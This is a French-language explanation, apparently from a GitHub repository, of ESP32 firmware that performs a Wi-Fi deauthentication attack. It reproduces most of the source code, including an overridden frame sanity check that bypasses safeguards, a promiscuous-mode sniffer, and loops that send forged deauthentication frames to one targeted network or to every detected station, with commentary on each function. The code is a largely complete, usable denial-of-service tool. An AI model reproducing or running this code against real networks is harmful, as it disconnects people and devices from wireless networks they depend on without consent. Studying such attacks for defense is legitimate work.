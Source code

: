 Ce code est un exemple de programme pour l'ESP32 qui permet de lancer une attaque par déauthentification (Deauthentication Attack) sur un réseau Wi-Fi. Ce type d'attaque vise à déconnecter les appareils d'un réseau Wi-Fi en envoyant des paquets de déauthentification forgés. Voici une explication détaillée du code :

### 1. **Inclusions et Déclarations Initiales**
```cpp
#include <WiFi.h>
#include <esp_wifi.h>
#include "types.h"
#include "deauth.h"
#include "definitions.h"
```
- **WiFi.h** : Bibliothèque pour gérer les fonctionnalités Wi-Fi de l'ESP32.
- **esp_wifi.h** : Bibliothèque pour les fonctions Wi-Fi de bas niveau de l'ESP32.
- **types.h**, **deauth.h**, **definitions.h** : Fichiers d'en-tête personnalisés contenant des définitions de types, des structures de données et des constantes utilisées dans le programme.

### 2. **Structures et Variables Globales**
```cpp
deauth_frame_t deauth_frame;
int deauth_type = DEAUTH_TYPE_SINGLE;
int eliminated_stations;
```
- **deauth_frame** : Une structure qui contient les informations nécessaires pour construire un paquet de déauthentification.
- **deauth_type** : Un entier qui détermine le type d'attaque de déauthentification (par exemple, attaque unique ou attaque sur toutes les stations).
- **eliminated_stations** : Un compteur pour suivre le nombre de stations déconnectées.

### 3. **Fonction `ieee80211_raw_frame_sanity_check`**
```cpp
extern "C" int ieee80211_raw_frame_sanity_check(int32_t arg, int32_t arg2, int32_t arg3) {
  return 0;
}
```
- Cette fonction est une fonction de vérification de la validité des paquets Wi-Fi. Ici, elle est redéfinie pour toujours retourner 0, ce qui signifie que tous les paquets sont considérés comme valides. Cela permet de contourner certaines vérifications de sécurité.

### 4. **Fonction `esp_wifi_80211_tx`**
```cpp
esp_err_t esp_wifi_80211_tx(wifi_interface_t ifx, const void *buffer, int len, bool en_sys_seq);
```
- Cette fonction est utilisée pour envoyer des paquets Wi-Fi bruts. Elle est définie dans la bibliothèque `esp_wifi.h`.

### 5. **Fonction `sniffer`**
```cpp
IRAM_ATTR void sniffer(void *buf, wifi_promiscuous_pkt_type_t type) {
  const wifi_promiscuous_pkt_t *raw_packet = (wifi_promiscuous_pkt_t *)buf;
  const wifi_packet_t *packet = (wifi_packet_t *)raw_packet->payload;
  const mac_hdr_t *mac_header = &packet->hdr;

  const uint16_t packet_length = raw_packet->rx_ctrl.sig_len - sizeof(mac_hdr_t);

  if (packet_length < 0) return;

  if (deauth_type == DEAUTH_TYPE_SINGLE) {
    if (memcmp(mac_header->dest, deauth_frame.sender, 6) == 0) {
      memcpy(deauth_frame.station, mac_header->src, 6);
      for (int i = 0; i < NUM_FRAMES_PER_DEAUTH; i++) esp_wifi_80211_tx(WIFI_IF_AP, &deauth_frame, sizeof(deauth_frame), false);
      eliminated_stations++;
    } else return;
  } else {
    if ((memcmp(mac_header->dest, mac_header->bssid, 6) == 0) && (memcmp(mac_header->dest, "\xFF\xFF\xFF\xFF\xFF\xFF", 6) != 0)) {
      memcpy(deauth_frame.station, mac_header->src, 6);
      memcpy(deauth_frame.access_point, mac_header->dest, 6);
      memcpy(deauth_frame.sender, mac_header->dest, 6);
      for (int i = 0; i < NUM_FRAMES_PER_DEAUTH; i++) esp_wifi_80211_tx(WIFI_IF_STA, &deauth_frame, sizeof(deauth_frame), false);
    } else return;
  }

  DEBUG_PRINTF("Send %d Deauth-Frames to: %02X:%02X:%02X:%02X:%02X:%02X\n", NUM_FRAMES_PER_DEAUTH, mac_header->src[0], mac_header->src[1], mac_header->src[2], mac_header->src[3], mac_header->src[4], mac_header->src[5]);
  BLINK_LED(DEAUTH_BLINK_TIMES, DEAUTH_BLINK_DURATION);
}
```
- **sniffer** : Cette fonction est un callback qui est appelé chaque fois qu'un paquet Wi-Fi est capturé en mode promiscuous.
  - **raw_packet** : Le paquet brut capturé.
  - **packet** : Le payload du paquet, contenant l'en-tête MAC.
  - **mac_header** : L'en-tête MAC du paquet.
  - **packet_length** : La longueur du paquet.
  - **deauth_type** : Détermine si l'attaque est ciblée (DEAUTH_TYPE_SINGLE) ou générale.
  - **esp_wifi_80211_tx** : Envoie des paquets de déauthentification forgés.
  - **DEBUG_PRINTF** : Affiche des informations de débogage.
  - **BLINK_LED** : Fait clignoter une LED pour indiquer l'envoi de paquets.

### 6. **Fonction `start_deauth`**
```cpp
void start_deauth(int wifi_number, int attack_type, uint16_t reason) {
  eliminated_stations = 0;
  deauth_type = attack_type;

  deauth_frame.reason = reason;

  if (deauth_type == DEAUTH_TYPE_SINGLE) {
    DEBUG_PRINT("Starting Deauth-Attack on network: ");
    DEBUG_PRINTLN(WiFi.SSID(wifi_number));
    WiFi.softAP(AP_SSID, AP_PASS, WiFi.channel(wifi_number));
    memcpy(deauth_frame.access_point, WiFi.BSSID(wifi_number), 6);
    memcpy(deauth_frame.sender, WiFi.BSSID(wifi_number), 6);
  } else {
    DEBUG_PRINTLN("Starting Deauth-Attack on all detected stations!");
    WiFi.softAPdisconnect();
    WiFi.mode(WIFI_MODE_STA);
  }

  esp_wifi_set_promiscuous(true);
  esp_wifi_set_promiscuous_filter(&filt);
  esp_wifi_set_promiscuous_rx_cb(&sniffer);
}
```
- **start_deauth** : Cette fonction initialise l'attaque de déauthentification.
  - **wifi_number** : L'indice du réseau Wi-Fi cible.
  - **attack_type** : Le type d'attaque (unique ou générale).
  - **reason** : La raison de la déauthentification (code de raison).
  - **WiFi.softAP** : Configure l'ESP32 en mode point d'accès (AP) pour l'attaque ciblée.
  - **esp_wifi_set_promiscuous** : Active le mode promiscuous pour capturer tous les paquets Wi-Fi.
  - **esp_wifi_set_promiscuous_filter** : Définit un filtre pour capturer uniquement les paquets pertinents.
  - **esp_wifi_set_promiscuous_rx_cb** : Définit la fonction de callback `sniffer`.

### 7. **Fonction `stop_deauth`**
```cpp
void stop_deauth() {
  DEBUG_PRINTLN("Stopping Deauth-Attack..");
  esp_wifi_set_promiscuous(false);
}
```
- **stop_deauth** : Cette fonction arrête l'attaque de déauthentification en désactivant le mode promiscuous.

### Résumé
Ce code permet à un ESP32 de lancer une attaque de déauthentification sur un réseau Wi-Fi. Il peut cibler un appareil spécifique ou tous les appareils connectés à un réseau. Le code utilise le mode promiscuous pour capturer les paquets Wi-Fi et envoie des paquets de déauthentification forgés pour déconnecter les appareils. Ce type d'attaque est souvent utilisé pour tester la sécurité des réseaux Wi-Fi, mais peut également être utilisé à des fins malveillantes.